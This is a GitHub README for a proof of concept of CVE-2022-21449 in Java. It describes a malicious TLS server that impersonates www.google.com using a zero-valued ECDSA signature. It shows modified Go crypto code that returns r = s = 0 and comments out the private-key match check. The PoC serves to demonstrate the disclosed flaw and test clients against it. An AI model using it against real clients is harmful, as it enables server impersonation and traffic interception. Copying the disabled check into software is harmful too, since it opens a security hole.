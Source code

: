# CVE-2022-21449-TLS-PoC
CVE-2022-21449 ([also dubbed Psychic Signatures in the vulnerability writeup by Neil Madden](https://neilmadden.blog/2022/04/19/psychic-signatures-in-java/)) Proof of Concept demonstrating its usage with a vulnerable client and a malicious TLS server.

The malicious server presents a valid (as of 2022-04-20) cert chain for www.google.com which has an ECDSA pub key (secp256r1). However, the `crypto/ecdsa` package has been modified to present an invalid signature with `r = s = 0`. The vulnerable client accepts this invalid signature, allowing the rest of the TLS handshake to continue.

Aside from the removed `*_test.go` files while building & exploration, [these modifications to the golang crypto library](#modifications-to-the-golang-crypto-library) were necessary for the malicious TLS server. They can also be found by searching/grepping for `CVE-2022-21449` in the `go/src` directory.

# Building
Requires some existing golang installation as well as maven, then run `./build.sh`.

Tested on Ubuntu 20.04.4 LTS (WSL2) with OpenJDK 16.0.1 (build 16.0.1+9-Ubuntu-120.04, 2021-04-20)

# Demo
https://user-images.githubusercontent.com/7225227/164332612-832b046b-cd2e-46e8-b3d6-1da36e290992.mp4

# Modifications to the golang crypto library


In `crypto/ecdsa/ecdsa.go`, the function `signGeneric` was essentially modified to:
```go
func signGeneric(priv *PrivateKey, csprng *cipher.StreamReader, c elliptic.Curve, hash []byte) (r, s *big.Int, err error) {
        // SEC 1, Version 2.0, Section 4.1.3
        // CVE-2022-21449 - Modified and removed all calculations. Return r = s = 0
        r = new(big.Int)
        s = new(big.Int)
        return
}
```

And in `crypto/tls/tls.go`, the function `X509KeyPair` has been changed to disable verification checks that a given private key matches the X.509 certificate's public key for ECDSA public keys:
```go
// X509KeyPair parses a public/private key pair from a pair of
// PEM encoded data. On successful return, Certificate.Leaf will be nil because
// the parsed form of the certificate is not retained.
func X509KeyPair(certPEMBlock, keyPEMBlock []byte) (Certificate, error) {
        fail := func(err error) (Certificate, error) { return Certificate{}, err }
        ...
        switch pub := x509Cert.PublicKey.(type) {
        ...
        case *ecdsa.PublicKey:
                // CVE-2022-21449: Modified checks away
                _, ok := cert.PrivateKey.(*ecdsa.PrivateKey)
                if !ok {
                        return fail(errors.New("tls: private key type does not match public key type"))
                }
                /*if pub.X.Cmp(priv.X) != 0 || pub.Y.Cmp(priv.Y) != 0 {
                        return fail(errors.New("tls: private key does not match public key"))
                }*/
         ...
}
```

# Credits
- [Neil Madden](https://twitter.com/neilmaddog): finding and disclosing CVE-2022-21449, as [detailed in their excellent writeup](https://neilmadden.blog/2022/04/19/psychic-signatures-in-java/).
- [Khaled Nassar](https://twitter.com/kmhnassar): This PoC.
